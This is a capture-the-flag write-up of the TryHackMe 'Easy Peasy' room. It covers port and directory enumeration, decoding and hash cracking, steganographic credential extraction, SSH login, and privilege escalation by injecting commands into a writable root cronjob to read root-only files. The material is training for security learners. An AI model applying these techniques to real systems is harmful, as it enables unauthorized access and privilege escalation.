

# Easy Peasy
The [Easy Peasy](https://tryhackme.com/room/easypeasyctf) room on TryHackMe is marked as beginner and it is a beginner level room but even then it'll take a lot of time and efforts to break it. This room is mainly about one and only one thing and that is **Enumeration! Enumeration! and Enumeration!** 

Even after being a beginner level room, it took me quite some time to drill down and complete the room. But to be honest, this room made me realize the importance of enumeration.

### [Task 1] Enumeration Through Nmap

As all the questions in this task are based on `nmap`, we can directly start a nmap search first and then look at the questions

```
tester@kali:~$ nmap -A -p- -T4 10.10.140.59
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-05 03:40 IST
Nmap scan report for 10.10.140.59
Host is up (0.15s latency).
Scanned at 2020-08-05 03:40:13 IST for 937s
Not shown: 65508 closed ports
PORT      STATE    SERVICE       VERSION
80/tcp    open     http          nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
2125/tcp  filtered lockstep
3640/tcp  filtered netplay-port1
6498/tcp  open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
6891/tcp  filtered unknown
11348/tcp filtered unknown
11739/tcp filtered unknown
12244/tcp filtered unknown
12738/tcp filtered unknown
13469/tcp filtered unknown
13803/tcp filtered unknown
24499/tcp filtered unknown
28661/tcp filtered unknown
31276/tcp filtered unknown
31806/tcp filtered unknown
38949/tcp filtered unknown
40706/tcp filtered unknown
41952/tcp filtered unknown
42030/tcp filtered unknown
43509/tcp filtered unknown
44915/tcp filtered unknown
45960/tcp filtered unknown
47700/tcp filtered unknown
52127/tcp filtered unknown
57917/tcp filtered unknown
59485/tcp filtered unknown
65524/tcp open     http          Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Final times for host: srtt: 146469 rttvar: 629  to: 148985

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
NSE: Starting ssh-hostkey.
NSE: Finished ssh-hostkey.
NSE: Starting runlevel 2 (of 3) scan.
NSE: Starting runlevel 3 (of 3) scan.
Read from /usr/bin/../share/nmap: nmap-payloads nmap-service-probes nmap-services.
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 937.71 seconds

```

1. How many ports are open?

The answer to this question can be found by directly count the number of open ports for which nmap has provided the details.

2. What is the version of nginx?

We can see that on what port nginx is running and along with that we are provided the version of nginx as well.

3. What is running on the highest port?

There is only one service that is running on the port number greater than 65K and that service is the answer to this question.

### [Task 2] Compromising The Machine

Now, the fun part begins!

The questions in this task require us to find hidden pages and files. Hence, we can start `dirb` scan beforehand and then use all that information to answer the questions.

Remember, on our nmap scan we saw two open ports; one for nginx and the other for apache. So, we can start two different dirb scans for each port.

Dirb scan for port 80:
```
tester@kali:~/Desktop$ dirb http://10.10.140.59

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  5 03:45:39 2020
URL_BASE: http://10.10.140.59/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.140.59/ ----
==> DIRECTORY: http://10.10.140.59/hidden/                                                                                            
+ http://10.10.140.59/index.html (CODE:200|SIZE:612)                                                                                  
+ http://10.10.140.59/robots.txt (CODE:200|SIZE:43)                                                                                   
                                                                                                                                      
---- Entering directory: http://10.10.140.59/hidden/ ----
+ http://10.10.140.59/hidden/index.html (CODE:200|SIZE:390)                                                                           
==> DIRECTORY: http://10.10.140.59/hidden/whatever/                                                                                   
                                                                                                                                      
---- Entering directory: http://10.10.140.59/hidden/whatever/ ----
+ http://10.10.140.59/hidden/whatever/index.html (CODE:200|SIZE:435)                                                                  
                                                                                                                                      
-----------------
END_TIME: Wed Aug  5 04:20:18 2020
DOWNLOADED: 13836 - FOUND: 4

```

Dirb Scan for port 65524:
```
tester@kali:~$ dirb http://10.10.140.59:65524

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  5 04:05:43 2020
URL_BASE: http://10.10.140.59:65524/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.140.59:65524/ ----
+ http://10.10.140.59:65524/index.html (CODE:200|SIZE:10818)                                       
+ http://10.10.140.59:65524/robots.txt (CODE:200|SIZE:153)                                         
+ http://10.10.140.59:65524/server-status (CODE:403|SIZE:280)                                      
                                                                                                   
-----------------
END_TIME: Wed Aug  5 04:17:13 2020
DOWNLOADED: 4612 - FOUND: 3

```


1. Using GoBuster, find flag 1.

From dirb scan for port 80, we can see that a `/hidden` directory has been found so we can go and check if we can find something useful over there.

Over there, we can see this one image and nothing else. Not even in the HTML file.


We can also see that another sub-directory is present in the /hidden directory named as `/whatever`, we can also go there and check it's content.


Again, the same thing. There is just an image but this time in the HTML file, we can see a value named `hidden` and the `==` at the end suggest that it is a `base64` encoded file. So, we can decode it as base64 and check what it actually is. We can use [GCHQ CyberChef](https://gchq.github.io/CyberChef/) for decoding.

Once decoded, we can see that we have got our first flag!

2. Further enumerate the machine, what is flag 2?

As for port 80, no other directories or files were detected (other than robots.txt which did not contain anything useful) we can now move on to the dirb results from port 65524.

We can also check the homepage that is hosted on port 65524 which appears to be the default Apache page and hence, we can say that there is nothing useful here. 

In the dirb scan results for port 65524, another `robots.txt` was detected. So, we can go and check this as well. There we can see one really odd kind of an `user-agent` specified.
```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

Whatever it might be we can try to `curl` a request with this User-Agent.

```
tester@kali:~$ curl -A "a18672860d0510e5ab6699730763b250" http://10.10.140.59:65524
```

Even after curling a request to the homepage with a modified user-agent, we still got the same page itself but while looking at the result of this request properly we can see that the `Flag 3` is present over here only. So, if not flag 2 we got flag 3 at least.

As it appears to be a random string, we can try different decoding method on it to check if can get some meaningful data out of it. This can be done by using the magic feature on GCHQ website. But even over there, we can find any meaningful decoding output for this string.

The next thing about which we can think is hashes. We can pass this string to `hash-identifier` and check if it can detect something.

```
tester@kali:~/Desktop$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a18672860d0510e5ab6699730763b250

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

And we can see that it has been detected as possible MD5 or MD4 hash. We can not look for some online md5 cracker tools and try to crack this hash. I tried various websites but was not able to crack it until I found [this](https://md5hashing.net/) website.

After select MD5 as the hash type and passing on the hash value, we can see in the result that we now have flag 2 as well.

So with this, we got all the 3 flags but now the important part begins which is gaining access to the machine. 

3. Locate flag 3.

Check Task 2, Question 2 for the solution as it was found before flag 2.

4. What is the hidden directory?

We have browsed all the pages that were detected by dirb on both port 80 and 65524 but we did not find any hidden directory that gets accepted as the solution to this question. Which means we have not observed something that was present in the detected pages. 

We can go through all the pages and directories that have been detected to find out what we have missed. From the pages on port 80, we can't find anything. But on the `index.html` page on port 65524 from where we got our third flag, we missed one important detail:


This value again appears to be some sort of hashed value or encoded value. But in the statement, it is written that 'its **encoded** with ba....:' which suggests that this is some sort of baseX encoded data. So, we can go back to CyberChef and try different base encoding methods and determine which one decodes this string. After multiple trials and errors with various base encoding method, we can determine that this is the `hidden directory` encoded using `base62`.

So, we got the name of the hidden directory as well.

5. Using the file found in the hidden directory, find and crack a password hidden in the file.



It can be seen that there is one full-screen background image on top which there is another image named "binarycodepixabay.jpg" and below that another text string. First, we can look at the string. Again, this appears like a hash, so we can send it to `hash-identifier`.

```
tester@kali:~/Desktop$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
```

This time the possible hashing methods that detected are SHA-256 and Haval-256. So, we can go back to the same [hash cracker website]() that we used earlier and crack the hash. But even after multiple attempts, the hash does not get cracked either as SHA-256 nor Haval-256. We can even the least possible hashing methods.

When we select GHOST hashing method in hash type and pass our hash value then the hash gets cracked. The cracked values appear to be the password of something but what we don't know yet. 

But for now, this password can be submitted as the answer to this question.

6. What is the password to login to the machine via SSH?

Coming back to the webpage where we found this hash, we had observed that was an image as well. So, we can save that image and check it for steganography and pass the found password as the passphrase for this file's steganography test.

```
tester@kali:~/Downloads$ steghide extract -sf binarycodepixabay.jpg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```

Now, the `secrettext.txt` file we can get the username and the password which is stored in binary.

```
tester@kali:~/Downloads$ cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

So, we can again head back to GCHQ and convert this binary data to text to get the password for this account. Also, this password can be submitted as the answer to this question.

7. What is the user flag?

Now that we have both the username and password, we can easily access the machine via SSH. But one thing to remember here is that the SSH was not running on the default port 22 but some other custom port. So, while connecting we need to mention that port number as well.

```
tester@kali:~$ ssh boring@10.10.140.59 -p 6498
The authenticity of host '[10.10.140.59]:6498 ([10.10.140.59]:6498)' can't be established.
ECDSA key fingerprint is SHA256:hnBqxfTM/MVZzdifMyu9Ww1bCVbnzSpnrdtDQN6zSek.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.140.59]:6498' (ECDSA) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized	       **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.140.59's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ cat user.txt 
```

And we get the user flag (partially) but not in the exact state. It is also mentioned in the `user.txt` file that the flag has been rotated. So, we can go to CyberChef and rotate the flag using `ROT13`and get our desired flag!

8. What is the root flag?

We are already at the user level, so we just need to escalate ourselves to the root level in order to gain root-level access on the machine.

As a regular process, we can check the `/etc/passwd` file, run `sudo-l` and check `/etc/crontab`. We don't find any useful information from the passwd file and also we are not allowed to run any commands as `sudo` on this machine. But in `/etc/crontab` we can find a job running every minute that too with `root` as user:

```
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

We can further check and confirm that we have access to this `/var/www/.mysecretcronjob.sh` and also that we can modify it. So, now we can simply enter the command `cat /root/root.txt > /tmp/flag` in this shell file.

Also, we need to make a new file named `flag` in `/tmp` directory and change it's permissions so that root can write to it using the command: `chmod 660 flag`. We can wait for some time and then check the content of the `flag` file.

```
boring@kral4-PC:/tmp$ cd ..
boring@kral4-PC:/$ cd /tmp
boring@kral4-PC:/tmp$ touch flag
boring@kral4-PC:/tmp$ chmod 660 flag 
boring@kral4-PC:/tmp$ nano /var/www/.mysecretcronjob.sh 
```

In nano, we can add the command `cat /root/root.txt > /tmp/flag` and save it. Once, all these steps are performed, we can wait for a minute so that the cronjob gets executed and the flag gets printed to our /tmp/flag file. 

But even after waiting for some considerable time, nothing gets printed to the file. So, we need to check if the file `root.txt` is actually present at the location or so. This can be done by adding the command: `ls -la /root > /tmp/flag` to `/var/www/.mysecretcronjob.sh` and again wait for sometime to see the output.

```
boring@kral4-PC:/tmp$ cat flag 
total 40
drwx------  5 root root 4096 Jun 15 12:40 .
drwxr-xr-x 23 root root 4096 Jun 15 01:08 ..
-rw-------  1 root root  883 Jun 15 14:24 .bash_history
-rw-r--r--  1 root root 3136 Jun 15 12:40 .bashrc
drwx------  2 root root 4096 Jun 13 15:40 .cache
drwx------  3 root root 4096 Jun 13 15:40 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13 15:44 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15 01:01 .root.txt
-rw-r--r--  1 root root   66 Jun 14 21:48 .selected_editor
```

Here, we can see that the file has been named as `.root.txt` so we need to change our previous command a little bit like: `cat /root/.root.txt > /tmp/flag` and again wait for some time.

With this, we will get the root flag as well as complete the room!

As I said earlier, there was a lot of enumeration involved at the beginning to gain the initial foothold whereas the privilege escalation part was pretty simple. We could have used payloads to get a reverse shell as well if we wanted to by exploiting the shell file.

## Some Key Points to Take Away
1. Look closely at all the information on a web page as we can find some sensitive information.
2. In case of any string first, check it with `hash-identifier` and then check for different encoding methods to crack it.
3. If you see any doubtful image, check it for steganography.

## Tools to keep in handy:
1. [CyberChef](https://gchq.github.io/CyberChef/)
2. [Ultimate Hashing and Anonymity Toolkit](https://md5hashing.net/)